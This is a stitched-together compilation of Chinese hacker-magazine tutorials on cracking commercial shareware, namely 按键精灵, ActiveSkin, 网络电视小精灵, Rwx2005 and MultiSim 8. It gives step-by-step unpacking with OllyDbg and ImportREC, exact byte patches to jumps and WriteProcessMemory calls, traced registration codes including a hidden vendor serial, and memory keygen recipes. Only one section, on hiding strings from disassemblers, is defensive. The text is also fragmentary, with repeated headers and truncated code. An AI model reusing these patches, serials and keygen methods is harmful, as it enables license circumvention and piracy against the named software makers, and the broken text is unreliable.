首先用 PEID 查看加壳的情况，如图 1。


UPX 的壳最好脱，用 OllyDbg 载入程序之后，按“Ctrl+F”查找 popad，注意整个段块的选项不要勾上，按确定来到以下代码段。


- **【软件名称】** 按键精灵 2.65 正式版
- **【软件简介】** 特别适合网络游戏中制作自动练功的机器人，主要功能包括：
  - 定义热键，实现键盘按键动作、鼠标点击/移动动作、输入字符串动作、延迟动作等，并可扩展插件。
  - 动作循环控制，可设定次数或时间。
  - 热键可对指定窗口有效，避免切换窗口导致误动作。
  - 可生成 Script 文件，便于高级用户自行编辑。
- **【软件大小】** 101K
- **【加壳方式】** UPX

# 神秘园


POPAD、JMP 就是 UPX 加壳程序的入口点。在 00456D4B 中断或者按 F4 直接运行到 00456D4B，按 F8 单步跳过，在 0041D329 用 OllyDbg（以下简称 OD）的 OllyDump 插件 dump 整个程序，记下 Entry Point 的修改值 1D329。这里得到的程序是不能运行的，必须用 ImportREC 修复输入表，修改 OEP 为 0001D329，点击 IAT 自动搜索→获得输入信息→修理抓取文件，这里选择刚才 dump 的程序，OK，脱壳成功，如图 2。


脱壳后我们发现原来是用 Visual C++ 6.0 写的。拿出破解爱好者们反汇编的屠龙刀 W32Dasm，打开脱壳后的程序，点击“参考→串式参考”，如图 3。既然消息乱码，应该是做过处理了。还没有发挥 OD 动态调试的优势呢，试试吧。打开 OD，按 F3，选择脱壳后的程序，可能会弹出几个窗口，不要管它，按确定。在左下角命令行插件里输入 `bp GetDlgItemTextA` 回车，这样调试程序时会在调用 GetDlgItemTextA API 的时候中断。


图 3

输入 `bp GetDlgItemTextA` 回车，这样调试程序时会在调用 GetDlgItemTextA API 的时候中断。按“Alt+B”可以查看我们下的断点，断点已经设置好了。按 F9 运行程序，点击注册精灵，用户名和密码随便输，点注册。居然一点反应都没有，直接弹出“窗口错误”的注册码，狂晕 ing……断点没起作用。又尝试了几个 API：GetWindowTextA 之类都没有效果，看来是有点难度啊。乱码我们还是有办法对付的，拿出资源工具——freeRes，在字符串里搜索，看有没有重要信息，如图 4。


图 4

找到了 string ID 为 156 和 157，再次打开 W32Dasm，串式参考，在 String Resource ID 156 处双击，结果又是意想不到的，如图 5。

都快骂妈找茬了，越是困难时候越要保持头脑清醒。既然常规的不行，我们就不按常规的来了。在串式参考中继续查找其他信息，往下拉了一段，几个地方引起了我的兴趣，如图 6。


图 5


图 6

# 神秘园

大家知道按键精灵是 vrbrothers 公司出品的，还有那个 vipname，先不管了，去看看。双击 vrbrothers，来到以下代码：


从这段代码往上看，可以看到一个 call 413899。


呵呵，这和我们的经典句式是不是很像，应该是这里了，在 413899 中断试试看吧。打开 OD，在 413899 设置断点，按 F9 运行，在右下角的堆栈窗口，你是不是看到了什么？


**a929d4eec31534df** 怎么看上去像注册码啊？如果是注册码的话，那用户名是什么呢？带着问题继续往下调试。按 F8 单步跳过，一会儿来到 413A6C，右上角的寄存器窗口出现我们想要的东西了。


哈哈，原来兄弟工作组在软件里藏了一组注册码呢（后来发现按键精灵 2.68 版本也隐藏一组注册码，用户名也是 vrbrothers，有兴趣的可以自己试试看）。把用户名 vrbrothers 和注册码 a929d4eec31534df 输入注册，果然成功了。这能不能算是一个后门呢？

作为 crack 当然不能满足于一组注册码，GO on! 按“shift + F9”，点击注册精灵，用户名输入 zhouzhen[E.S.T.]，注册码随便输，点击注册，终于断下来了，找找。往下运行，在 4140F7 处寄存器窗口看真假注册码的比较（123456 为我刚才输入的假注册码）。


现在可以用 keymaker 写个注册机了。


呵呵，算法我就不跟踪了。有兴趣的朋友自己看看。

### 三、成为 VIP 用户

注册成功后，关闭刚才打开的调试程序，重新载入程序。刚才的断点还是起作用的，单步跳过 F8，看到 4100FC 处，发现下面的跳转会跳过 Vipname 等和 Vip 相关的代码段，我们在这段不让它跳转就是 VIP 用户了。（也就是把 41010E 处的 74 改为 75）

```asm
004100FC  C786CC000000 ...
0041010B  83F8FF        CMP EAX,-1
0041010E  7451          JNZ SHORT ...
00410110  8B0D...       MOV ECX,...
...
00410133  FF15...       CALL DWORD PTR DS:[KERNEL32.GetPrivateProfileStringA]
```

```asm
DWORD PTR SS:[ESP+48]
00410140  8D4C2408      LEA ECX,[ESP+08]
DWORD PTR SS:[ESP+8]
```

41010E 的偏移地址为 1010E，用 UltraEdit 打开注册后的程序，按“Ctrl+G”，输入 0x1010E，把 74 改为 75 保存。运行后，发现我们已经是 VIP 了。


### 四、总结

这次破解花了不少时间，遇上了不少困难，主要是因为我在破解上还是菜鸟。走了不少弯路，希望高手看了这篇文章后指点小弟一下。破解最需要的是毅力和恒心，如果没有这两点的话，遇到困难你可能就放弃了，永远都不会成功。这个软件给我的感觉是断点难下，找到了断点，接下来的问题也就迎刃而解了。所用到的工具有 W32Dasm、OllyDbg、UltraEdit、PEID、freeRes 等。


### 第二节：破解 ActiveSkin 3.62

我学 VB 时碰到的 ActiveSkin，第一次见 ActiveSkin3.62 就被它酷酷的界面迷住了。但美中不足的是它是共享软件，不注册会出现一个对话框，如图 1。现在的破解教程大多都是破解 EXE 文件的，关于破解 OCX 的很少。本文主要介绍用 OllyDbg 破解 OCX 控件的方法，其中大部分是基础知识。


用 W32Dasm 静态反汇编，打开串式数据参考，寻找上图中的提示信息，如图 2。


我所破解的软件是 ActiveSkin3.62，这是一个 ActiveX 控件，它可以替你的软件做“换肤手术”，可以更换软件的外观、形状、颜色以及看起来的感觉。控件可用于 Visual Basic 6.0。

# 神秘园

哈哈！一共有两处（12121529 和 12121630），将 1212152F 和 12121636 两处代码用 Hiew NOP 掉，意思就是去掉对 MessageBoxA 函数的调用……整个世界清静了……你可能会说，这么简单，骗稿费的吧！那么，双击 test.exe 标题栏，让其最大化。怎么样？奇迹出现了！如图 3。


图 3

### 第二战——真正的猴冠

怎么办，程序可能加了保护，要么就是我修改错了。如果能用动态调试器调试就好了，但是直接载入控件是不行的。那么，可不可以调试控件的容器呢？

我用 VB 作了一个承载控件的容器，命名为 test.exe。用 OllyDbg 载入 test.exe，可以运行。但是我却无法断 MessageBoxA 函数，因为在未运行 test.exe 时 ActiveSkin.ocx 不会载入……


图 4

然后在代码窗口单击右键，选择“查看”→“模块 ActiveSk”，切换到 ActiveSkin.ocx 模块……在命令行输入 bpx messageboxa 断 MessageBoxA 函数……在“选项”菜单→“调试设置”→“事件”中，选中“中断在新模块（DLL）”，如图 5。


图 5

这样每次载入新的模块，OllyDbg 就会自动中断（此时那个模块已经加载但是还没有运行）……在 ActiveSkin.ocx 调用 MessageBoxA 函数的地方走了一圈，发现了一个小小的机关……代码见光盘中的 MessageBoxCode.txt。

### 第三战——真正曝光

还记得第一战中的奇迹吗？对话框中说了什么？0x1212237C 不是内存地址吗？……从 1212237C 处往下全是错误指令，好像是胡乱编的，再用 W32Dasm 查看源文件中的汇编指令，发现两处的代码根本不一样，但是用 W32Dasm 反汇编出来的也一样一塌糊涂，如图 6。


图 6

那么，未修改的 ActiveSkin.ocx 是什么情况呢？马上找出原版替换，再次载入 test.exe，1212237C 处居然全部成了“良民”。现在可以肯定，程序做了自我保护，只要有一处被修改了，那么 1212237C 处的代码便成了乱码。换句话说，1212237C 处的代码是动态生成的，只有程序自身完整，才能生成正确代码。

### 第四战——揪出元凶 WriteProcessMemory

如果找出动态修改代码的地方，不就破了吗？可是怎么找呢？我发现最初载入 ActiveSkin.ocx 的时候 1212237C 处的代码没有改变，还是乱码。但是随着载入各种各样的模块（这时还未显示 MessageBox 对话框），代码全变了。这说明在加载 test.exe 某个模块时执行了 ActiveSkin.ocx 的某部分代码。我换了种种努力，但是都没找到那个模块。于是我使出了杀手锏，在 OllyDbg 中选上“中断在新模块（DLL）”，运行 test.exe。当 OllyDbg 中断在 ActiveSkin.ocx 载入后，打开 WinHex 的内存编辑功能找到 ActiveSkin.ocx 的内存区域，将光标定位到 1212237C 处。继续运行 test.exe，中断在新模块后用 WinHex 刷新 ActiveSkin.ocx 的内存，看一看有没有变化。如果没有变化，则继续运行 test.exe。如果变化了，则说明刚刚载入的模块中运行了我们要找的代码。重新运行 test.exe，中断在刚才找到的模块的前一个模块（就是 MSI.DLL），按“Ctrl+F9”执行直到返回，最后到了 ActiveSkin.ocx 领空。F8 单步跟踪，遇到 CALL 过后刷新内存，看有没有变化。有变化则重新运行 test.exe 后步入这个 CALL。如此往复缩小范围。

我费了大半天的功夫，终于找到了关键过程（我是在 1214AC65 处找到的）。原来程序调用 WriteProcessMemory 函数改写内存（早知道直接断 WriteProcessMemory 不就行了）。关键过程是 1213E48F，它的作用就是写内存。下面进入分析环节。

### 第二战  顺藤摸瓜

在关键过程 1213E48F 处单击右键，选“查看调用结构”（前提是必须分析过代码），将调用 1213E48F 的所有代码断下，如图 7。重新运行 test.exe，很快就可以找出三处调用 1213E48F 的代码（起始地址分别是：第一次：1214ABA7；第二次：12121006；第三次：121478CD）。下面是这三处调用的代码（代码见光盘中的 ImportantCode.txt）。


图 7

仔细分析我们发现，每个调用都会有两个参数入栈，这两个参数是什么？还有两个参数进入了 ECX 和 EDX 寄存器，它们又是什么呢？只能分析 1213E48F 过程了（代码见光盘中的 ImportantCall.txt）。

1213E48F 过程很有规律，其中只有一个循环，循环一次写一个字节，跟踪一遍我们就可以明白，入栈的两个参数就是需要修改的内存的范围，而进寄存器的两个参数则是需要保护的代码的范围（就是那些受保护的不允许修改的重要代码，前面的显示 MessageBox 的代码就在其中）。

至此，程序的大体保护思路就清楚了。文件中保存的那一堆原始“乱码”其实是中间代码（就是第三战中发现的保存在 ActiveSkin.ocx 文件的那一部分），1213E48F 过程通过读取文件中的中间代码，并与内存中的受保护代码运算，得到真正的代码，最后存入中间代码所占用的那一部分内存。这样就不难理解了：如果我们将保护代码改动一个字节，都会运算出错误的代码。这也证明了第三战的观点。下面就是中间代码与受保护代码的范围：

中间代码：
1212291E—121225C3（文件偏移：231B—25C3）  
12121EB7—12121F86（文件偏移：1EB7—1F86）  
121482E8—121488C0（文件偏移：282E8—288C0）

受保护代码：
121214C1—1212165F  
12121C00—12121D54  
121458AE—121478C9

### 第三战  走向光明

知道了保护方式，如何破解呢？第一种方法就是打内存补丁，将调用 MessageBox 的那部分代码按第一战的修改方法修改。但是这种方法需要补丁支持，结合不紧密。第二种方法就是修改 OCX，我的大体思路是这样的：

- 1. 首先，运行程序，摘取已经解密的代码。
- 2. 第二，将摘取的代码替换中间代码，这样 ActiveSkin.ocx 便不再依赖中间代码了。
- 3. 第三，将 1213E48F 过程调用 WriteProcessMemory 的代码 NOP 掉，让其失去作用。
- 4. 第四，按照第一战的方法修改，去掉对话框。

第一步中的代码我已经摘取好了（*.DAT），用 UltraEdit32 直接打开替换就可以了（具体位置参考第五战中给出的文件偏移）。注意怎样进行第三步，一定要把调用 WriteProcessMemory 以及其上 PUSH 的所有参数都 NOP 掉（让 OLLYDBG 分析代码后就变得简单多了）。

这样，WriteProcessMemory 已经失去作用。哈哈，ActiveSkin.ocx 可以随便改了，包括注册信息，如图 8。其字符串“UNREGISTERED !”在地址 1215B058 处。修改完成后并还不够。方法是在 CPU 窗口单击右键选择“复制到可执行文件”→“全部修正”，然后点击“全部复制”按钮。在弹出来的窗口中右键选择“保存文件”即可，如图 9。


图 8

### 后记：我们学到了什么？

### 主角——中断在新模块

目标：在任意模块中下某个 API 的断点。

一般我们下断点都是针对某个非常可能的 API，用 BPX * 命令打开“调用 CALL”窗口，然后下断。

但是我们的断点只针对某模块的领空，不针对全局。也就是说，如果 ActiveSkin.ocx 调用了 MessageBox 函数显示“注册失败！”，我们必须到 ActiveSkin.ocx 模块领空中，然后对 ActiveSkin.ocx 调用的所有 MessageBox 下断。

但是这里有一个问题，ActiveSkin.ocx 是动态加载的（即打开 EXE 时尚未加载），只有 F9 运行后才加载，因此运行前无法直接对其 API 下断（在 CPU 窗口右键“查看”里找不到该模块）。

- alt+e：执行模块窗口
- ctrl+p：补丁（在内存中做的修改记录）
- ctrl+k：调用树窗口
- ctrl+tab：返回到上一个窗口
- ctrl+f9：执行到返回
- f9：运行
- f8：单步跳过
- f7：单步步入
- f4：运行到当前位置
- f2：设置/取消断点
- -（小键盘）：上一个位置
- +（小键盘）：下一个位置

### 操作技巧：

查找当前领空的所有 API 调用：在命令行中输入 `bpx *`。  
调试正在运行的程序：可由 OLLYDBG 附加进程进行分析，可通过“文件→附加”选择进程。  
查找注释可用搜索或字符串参考；查看文件偏移可在目标模块中使用“查看→程序文件”。

### 2：主角：OCX 文件

目标：调试 OCX 和 DLL 文件。其本质与破解 OCX、DLL 一样，主要是寻找合适容器；文中提到可做一个能加载 OCX 或 DLL 的容器程序。

### 3：主角：OLLYDBG

目标：掌握 OLLYDBG 的一些技巧。强调分析功能对于 OCX、DLL 这类动态加载程序的重要性。

- **常用快捷键**
- alt+c：CPU 窗口
- alt+b：断点窗口

### 4：主角：WriteProcessMemory

目标：断点设置及屏蔽 API 函数调用。若被屏蔽某个 API，需要把该函数入口相关参数处理后再 NOP，避免常见错误。

结语部分：作者总结了对 OLLYDBG、OCX 调试与断点处理的经验与教训，并讨论了 ActiveSkin 不同版本的处理差异。


## TIT 女子破解小组之注册码追击教学篇

索妮@[E.S.T] &[T.I.T]

首先感谢大家对 TIT 女子破解小组的支持，同时感谢公子许无偿制作配套动画。希望大家继续支持本系列教程。

我们上一节讲的是软件“爆破”，本节继续沿该思路展开。

- 第一步：检查程序是否加壳，并完成脱壳。
- 第二步：定位关键代码，找到注册流程。
- 第三步：修改关键跳转，重新编译程序，完成爆破。

希望大家能熟练运用上节课所学知识，多多练习。在有了一定爆破经历和一些简单的汇编基础后，我们就可以进入注册码追踪阶段。本阶段常用工具包括动态反汇编程序 OllyDbg、注册机编辑工具 keymaker 等。

这个阶段是新手学习的重要突破口，因此也很关键。只要不断积累基础，技术就会逐步提升。

下面先看“追码”的总体思路：先明确注册流程，输入注册码后程序会判断输入与真实注册码是否一致；在关键判断处中断程序，查看相关寄存器或内存数据，逐步定位真正注册码。

- 第一步：检查程序是否加壳，如加壳则先脱壳。
- 第二步：反汇编程序，找到关键跳转。
- 第三步：在关键跳转基础上向上查找关键 CALL。
- 第四步：在关键 CALL 处下断点并运行。
- 第五步：断下后查看相应内存或寄存器，找到真正注册码。

下面以《网络电视小精灵》V3.50 和《Word 文档资料管理系统》为例，讲解注册码追踪的完整过程。

### 一、《网络电视小精灵》追码篇

破解类型：信任注册码。所用工具：PEiD（查壳工具）、AspackDie 1.41 汉化版（脱壳工具）、OllyDbg（动态反汇编工具）。追码步骤：第一步检查是否加壳；第二步反汇编无壳程序，找到关键跳转。

第三步：在关键跳转基础上向上找关键 CALL。第四步：在关键 CALL 处下断点运行程序。第五步：断下程序后查看相应内存寄存器找到真正注册码。OK! Are you ready? Let’s go!

### 1. 初探破壳，知己知彼

首先判断程序是否加壳，并检查壳类型。这里使用 PEiD 查壳，结果显示程序 EP 区段与特征表明使用 AsPack 壳，因此需要先脱壳再进入后续追码步骤。


### 2. 改稿破败，锁定弱处

第二步需要反汇编程序并定位关键跳。可找到关键跳地址（如 004817EF），由于程序版本差异地址可能与示例不同。


# 神秘园

## 3. 向上追击，直捣黄龙

这一步是最关键的了，我们要找到关键 CALL。这里有个小技巧：一般情况下，关键跳前面最近的 CALL 就是关键 CALL（因为“老师拿到正确答案再批改卷嘛”）。我们用 OllyDbg 加载 `Unpacked.EXE` 文件并来到关键跳 `00481FEF` 处，向上找关键 CALL。我们可以看到在 `00481FEF` 一行附近有 `E8 1125F8FF  call Unpacked.00404500`，那这个就应该是关键 CALL 了，如图5。


图5

## 4. 布置陷阱，诱敌深入

我们在 `00481FEA, E8 1125F8FF call Unpacked.00404500` 处下断点。下断点的操作方法是：把光标移到这一行使其高亮显示，再按 F2 来下断点。如果断点设置成功，`00481FEA` 会变成红色，如图6。然后我们调试运行程序，按 F9 或通过点击运行符号使程序运行，出现如图8所示的窗口（不同系统表现可能不同），我们直接点击“确定”即可，程序继续运行。若程序停下就继续 F9，直到出现程序界面。


图6


图7


图8

注意：在这里，奇怪地发现在注册码第一个空里无法键盘输入，一输入注册界面就没有了，大概是作者防止大家破解而做的“精心修改”吧！所以这里要用“复制”“粘贴”了，如图9。


图9

我们这里写注册码的是：`qinni-520520`，然后点击“注册”。程序这时候就开始计算真正的注册码了（这个程序注册码的生成过程是：用我们输入的前一段 `qinni` 做明文进行加密，生成后段注册码，然后比较和我们输入的后段注册码是不是一样。一样就注册成功，不一样就失败）。然后程序运行。

## 5. 故入圈套，成功狙击

当程序运行到断点被断了下来，我们这个时候就来看看各个寄存器里的值吧，我们的正确注册码就在这里呢。从图10中我们可以很明显地看到，我们乱输入注册码 `520520` 在寄存器 EAX 里，真正注册码 `1043118` 在寄存器 EDX 里。到这里我们的注册码已经追出，完成了狙击任务。


图10

好了我们来用我们追出的注册码来注册吧。关掉 OllyDbg，重新运行网络电视小精灵 `v3.50.exe`，填写注册码 `qinni-1043118` 注册，结果当然是成功了，如图11。这样我们就可以正常升级软件了，完全享受正版注册软件的全部功能了。

破解总结：
- 理解追击注册码的破解思路；
- 熟练查找关键跳、关键 CALL；
- 熟练下断点的方法。

这里重要的是找到关键 CALL，下断点，乱注册，程序被断，看寄存器，读出真正注册码。希望大家多多练习，及时进行技术总结，交流经验，共同进步。


图11

## 二、《Word文档资料管理系统》

## 追码简单说明

《Word文档资料管理系统》的破解在04年的12期上已经有文章讨论过了，这里只做简单说明，仍然是运用上面的思路进行“五步追码”大法。通过《TIT女子破解小组之菜鸟爆破教学篇》的学习我们知道它的关键跳在 `0059A1C7`，那么关键 CALL 就应该在它的前面不远处。`0059A1C7` 处有一个 CALL，我们在这里下断点，乱注册，程序被断，看寄存器，读出真正注册码……对于初学者我们这里要打好基础，踏踏实实走好每一步，不要过分依赖技巧而忽视了基础知识和基本技能的学习。


图12

## 三、关于破解技巧

对于 crack 技术来讲，经验是很重要的，也有一些很精妙的技巧有时会让 crack 变得异常简单，甚至不用任何汇编知识，不用任何其他程序，就能找到正确注册码。比如：破解前后对注册码的检测、对文件的检测、强行查看内存等。在公子许的《浅谈 crack 中技巧的应用》一文中有详细阐述。

## 四、关于注册机的编写

我可以使用简单的注册机编程工具 KeyMaker 来做，针对爆破我们可以制作文件补丁。而针对注册码追击我们可以制作内存注册机，具体方法我们会在《TIT女子破解小组之注册机编写教学篇》中详细讲解。注册码追击教学篇就先写到这里，大家要多多练习，勇敢成为一名出色的 cracker……

> （文中涉及到的程序网络电视小精灵、Word文档资料管理系统、PEID、pe-scan、F-language2k、ApackDie、OllyDbg、IDA等已收录于光盘中）


“炎炎叶z（E.W.S）”相关介绍文字：在《黑客X档案》2004年的11期，发现了一个很有用的系统——UTA魔法记事本（以下简称 UTA）。

- 桌面记事本
- 信息强制收藏夹
- 多媒体通讯录


安装完之后，当我打开时，居然要注册……通过反编译分析其主程序，查看字符串、调用关系后发现关键线索，继续定位到相关 DLL 与资源项。


# 神秘园


两年前因为上报病毒，我获得了一套瑞星的杀毒软件，但这几个月我发现安装从瑞星网站上下载的完整升级包时，输入的明明是正确的序列号，却显示序列号不对，无法进行下一步……

## 破解瑞星安装故障

Daniel@BlackWoods

这行拷贝回来的升级包，开始安装，到输入序列号那一步，输入我的序列号，程序报告不正确（图1）。不用“激活专家”输入任何内容，直接点下一步，最后成功安装（图2）。

运行杀毒软件后出现目录显示异常：左侧“查杀目录”显示为系统目录（图3），右键菜单中的“瑞星杀毒”不能正常查杀，显示“已查杀0个文件”；点击“设置”报错（图4）。重新安装并输入序列号后目录恢复正常（图5），功能恢复。


经过一次又一次的尝试，我还发现一个奇怪的问题：一次在卸载的时候不小心强行关闭了卸载进程，再次安装的时候输入序列号的文本框中已经出现了上次输入的文本，并且显示：“您的序列号为****”，“下一步”按钮也可以正常使用了。我想也许是瑞星的一个 Bug，请高手指点。

这篇文章也许让大家失望了，我并没有给出瑞星安装的完美升级办法，只是为以前的瑞星老用户提出了一种解决方法。对于没有瑞星的朋友也只能用网上流传的序列号安装。同时提醒大家，安装时需要序列号的软件也可以用破解的思路达到我们的目的，权当抛砖引玉。

> （本文涉及到的工具激活专家，光盘有收录）


阿铁

- 软件名称：Rwx2005
- 功能：远程控制（骗子黑客工具）
- 破解工具：PEID、UPX 工具、W32Dasm、OllyDbg、KeyMake 等

前几天我朋友从 QQ 上传了个软件（就是今天要动手术的 Rwx2005）给我，问我会不会破解，我只能说试试看了（本人也是菜鸟一只啊）。此软件的目录下包含 `HKrwx.exe` 文件和 `cache` 文件夹，今天要被拆解的对象就是 `HKrwx.exe` 了。此软件未注册前只能在本机运行1次，退出后再运行就是要求输入注册码的对话框了。

第一步就是先将要破解的软件复制一份备份，以免破解过程中把软件给搞坏了。然后先查看该软件是否加了壳，于是就用 PEiD 检查了一下，果然有陷阱，是 UPX1 的壳（不是 UPX）。尝试用相关工具脱壳后，首次运行提示 DLL 错误，随后继续调整方式。

看来此路不通啊，还好我还有一个脱 UPX 壳的工具，终于出现了成功信息。再试运行，可以运行。接着按照常规思路来破解：先运行软件，弹出注册对话框，在输入框里随便输入例如 `12345678`，点击“注册”按钮，出现“注册失败，请重新输入！”提示。

下面出场的是今天的女主角——W32Dasm。加载完成后，在菜单中选择“参考”→“字符串数据参考”，查找“注册失败，请重新输入！”字符串。一般在最后，双击字符串后可见关键跳转地址信息。


Ref from Code Obj → `"software\Microsoft\shellrwx"` 的字符串，说明软件注册成功后向注册表中写数据。好了，我们到 `0050D02E` 这个关键跳去看看，看到这句跳转的上一句是一个 CALL，`0050D02E` 这个跳转 99% 是关键跳了！

# 神秘园


图3

下面出场的就是今天的男主角——应该是 OllyDbg！用 OllyDbg 加载 `HKrwx.exe`，加载完毕后按 `Ctrl+G`，然后输入关键跳转地址 **0050D02E**，按一下 F2 下个断点，然后在上面三行也下断点：

```asm
0050D023  8B45F4      MOV EAX,DWORD PTR SS:[EBP-C]
0050D026  8B55FC      MOV EDX,DWORD PTR SS:[EBP-4]
0050D029  E8527EFFFF  CALL HKrwx.00404E80
0050D02E  7564        JNZ SHORT HKrwx...
```

也就是上面四行下断点。然后按 F9 运行程序，出现输入注册码的对话框，随便输入（例如 `12345678`）后按“注册”按钮，程序被 OllyDbg 拦截下来，停在 **0050D023** ……

```asm
0012FD8C  00D78900  ASCII "12345678"
0012FD9A  ...
0012FD24  00D7BFC8  ASCII "..."
```

图4

没关系，我们按 F8 继续往下走……继续按 F8，程序来到 **0050D02E** 的关键跳处……按 F9 让程序运行完，然后点“退出”。好了，已经掌握了此软件注册流程，那么我们可以做内存注册机了。其实用 KeyMake 来做非常简单，运行 KeyMake，点一下“其他”→“内存注册机”……

“其他”→“内存注册机”，然后选择要做注册机的程序，点左下角的“添加”按钮来添加要中断的地址，如图5。为什么中断地址是 **50D029**……因为当程序运行到这里时，EDX 中的内容才是真正的注册码……


图5

图6

好了大功告成，是不是很有成就感啊？

> 小提示：注册信息写在 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\shellrwx` 中，删除该项也可以运行 Rwx2005。  
> （此文章纯属技术讨论，涉及到的软件版权问题与我无关，涉及到的工具 Rwx2005、PEiD、UPX-iT61、W32Dasm、OllyDbg 109C、KeyMake v173，光盘有收录）


石勒

## 二、理清思路

一般的共享软件，在用户输入注册码后，会通过热心地用 MessageBox 给出注册成功失败的信息，这就给了破解者一个机会。正如 2005 年第 1 期《黑客X档案》中“Crack 菜鸟阶段晋级篇”一文所述……

首先必须搞清楚要隐藏的是哪些信息。WIN32 API MessageBox 需要两个字符串作参数，分别是标题和“注册失败”之类的内容。这正是破解者要搜索的……

了）。那么，W32Dasm 的“串式参考”到底是什么原理呢？用 W32Dasm 随便载入一个程序，认真观察一下，如图1。


```asm
start:
    call @F        ; 字符串地址入栈
    Msg db "hello",0
@@:
    pop edi        ; edi 即为字符串地址
    call @F        ; 字符串地址入栈
    MsgCaption db "MessageBox",0
@@:
    pop esi        ; esi 也为字符串地址
    ; 以下是自己代码
    invoke MessageBox,NULL,edi,esi,MB_OK
    invoke ExitProcess,0
end start
```

我们就会发现：凡是在“串式参考”中出现的字符串，其地址在程序中都是被直接引用的，如 `push 00403010` 这样的代码，`00403010` 就是字符串的地址。反过来想一想，如果程序中不直接引用字符串的地址，也就是说字符串的地址不出现在机器码中，“串式参考”自然就无能为力了。

## 三、讨论

用 W32Dasm 载入上述程序，发现“串式参考”已经失效了，如图2。

## 三、编程实例

既要使用字符串，又不能直接引用其地址，就只好采用病毒常用的“自定位”法了。示例代码如下：

```asm
.386
.model flat, stdcall
option casemap:none

include \masm32\include\windows.inc
include \masm32\include\kernel32.inc
includelib \masm32\lib\kernel32.lib
include \masm32\include\user32.inc
includelib \masm32\lib\user32.lib

code
```


对抗 W32Dasm 的目的也就达到了。不过，破解者也许会用 WinHex 之类的软件直接搜索相关的字符串，所以有可能的话，自定位部分要尽量离“关键词”远些。当然了，不提供注册信息才是最彻底的解决之道。

> （本文涉及到的 W32Dasm，光盘有收录）


过烦

限制的工具与思路配合，更能推广一般程序时间限制的破解。组合招式主要是把各种工具与思路相配合，本系列主要讲述目前主要的加密方案及其漏洞、破解应对方法等知识。今天要讲的是去除 MultiSim V8.0 的时间限制。


逆向分析程序多了，就往往感觉一种工具根本无法完成全部工作。有时要破解一个程序，不仅要有好的工具及使用技巧，而且更要和 Crack 思路相配合，形成人与工具二合为一的境界。本文就是通过实例从这个角度进行介绍，读者从中会体会到破解时间限制的思路。

## 游戏先机

破解就像与一个高手过招，程序为了防止别人 Crack 掉它往往会采取种种措施，而 Cracker 则往往是不停揭露程序加密的漏洞，尽力击破其加密防线。同武林高手对招一样，双方在战斗前都会想办法了解对方的套路、绝招等；同样我们要深入一个程序前，也要想尽方法初步了解程序的加密特点、有什么限制等，这就是先机。掌握更多的消息更有利于我们发现程序加密存在的漏洞。

MultiSim 是一个大名鼎鼎的电子电路仿真软件，可以在这里下载到最新的版本：<http://www.electronicsworkbench.com/html/prodemodown.html>，目前最新的版本是 `8.0.28`。官方公开的是 Demo 版本，这个版本包括所有的功能，但只有 3 天的试用时间；如果申请到 Release code 可以免费使用 45 天。由于是 Demo 版，只包含 3200 个元件，其它限制可以参考安装目录下的 `Release notes.txt` 文件。另外可以在它的网址上面申请到注册码（<http://www.electronicsworkbench.com/html/prodl.html>），我这里申请到的注册码是：`KD-9128-07007-5010-15901`，不过还要 Release code 才能试用 45 天。再运行一下程序，会跳出如图1的 Nag 窗口。


图1

上面有当前试用的天数，另外还可以输入 Release Code 来延长使用时间。如果试用期过了，会弹出过期提示，而且如果你把时间调回去程序还会警告你把时间调回云云。了解了上面的信息，再看一下程序有没有加壳，运行 PEID，把程序拖到 PEID 的主窗口，显示如图2。


图2

可以看到程序用 VC6 编写的，并没有加壳。判断程序是否加壳，主要是为了解决分析程序，或者针对不同编程语言编写的程序选择合适的分析工具，或者为了暴力修改程序解除程序的加密限制提供方便，所以可以看到很多 Cracker 一开始都会看看程序有没有加壳。

通过上面我们使用软件情况、用测壳工具分析获得的信息，可以总结如下：程序是用 VC 编写，使用试用期限制的加密方案。

## 三、试用软件的加密漏洞

由于这个程序有 Release Code 也只能使用 45 天，所以最好的解决方法应该是去掉它的时间限制。下面我们来看看试用期加密有什么漏洞，再针对其相应漏洞提出相应的解决方法。

首先是软件运行流程法。由于程序在试用期内会按正常流程运行，而超出试用期程序就会运行另一条路线，警告程序试用期已满。如果我们修改一下程序，让程序总是按正常流程加载，这样就可以去掉它的时间限制。那么怎么才能做到这点呢？我们一般的做法就是用 API 断点、提示信息等方法定位关键代码，再修改其关键代码跳转。下面介绍一种非常快捷的方法定位关键代码。

用 OD 加载程序。当出现 Nag 提示框后，点击 Release Code 按钮，出现输入注册码提示框，然后回到 OD，按 F12 暂停程序，再点出菜单“View/Call stack”，打开 Stack 窗口，如图3。

从这个窗口可以看到调用代码的先后顺序，我们双击最后一行的第三列，会到如图4所示。


图3


图4

看到了吗，`1000DDD2` 处的 Call 就是调用 Nag 提示框。

> 注意：这里将调用 BMSM.DLL 中的功能函数，同时也是试用期判断的关键代码。

在以前的 V7.0 中可以修改 `1000DDD2` 前面的代码跳过 `call jmp bmsm.f439887f9a12` 这个 Call，就可以去掉它的时间限制。但这次你会发现，前后都是程序的初始化代码，并不好修改。这里搞不定，那就进那个 Call 看看吧，这也是 Cracker 的本性：一条路不通，换一条路走走。

进入这个 Call，可以看到程序读取注册码、显示输入 Release code、进行注册码运算，另外还带有时间比较、反跟踪、SEH 异常跳转等（看来比以前版本改进不少）。由于过程比较烦琐，不再列出代码。初学 Crack 的朋友走到这里肯定会迷失（不过走多几次也许会找到规律）。怎么办？有没有好点的方法处理？有，知道吗？其实程序过期提示已经给我们指引了一条光明的路。

现在开始调整时间，如把时间调后到 2006 年，重在 OD 按 `Ctrl+F2` 重新运行程序。由于超过期限就会弹出消息框，可下 `MessageBoxA` 的 API 断点，如图5所示。


图5

没有错误提示表示下断成功。F9 开始运行程序，中断在 `MessageBoxA` 的入口处，`Ctrl+F9` 返回，点击过期确认后，来到如图6这里。


图6

这里就是过期提示了。现在再看看上面的代码，找找有没有跳过这段过期代码的关键跳转。上面的代码如图7所示。

可以明显看到这里程序有两个返回点（注意语句 `retn`），一个是 `3A834F`，另一个是过期提示框后面的地址 `3A83EA`。所以可以推测出：如果在试用期内，则从 `3A834F` 返回；如果过期，则程序跳出提示框，然后从 `3A83EA` 返回。

好了，分析得差不多了，现在看看上面什么代码可以跳过提示框。由于上面有一堆判断及跳转代码，我们就让它的第一条判断直接跳到正常返回代码处，把 `3A8285` 的 `JG SHORT 003A82E9` 改为 `JMP 3A830E`，修改后的代码会变成红色，这样变成红色的……代码，右击，在弹出的菜单中选择“Copy to executable/Selection”，再把修改的代码保存，如图8。


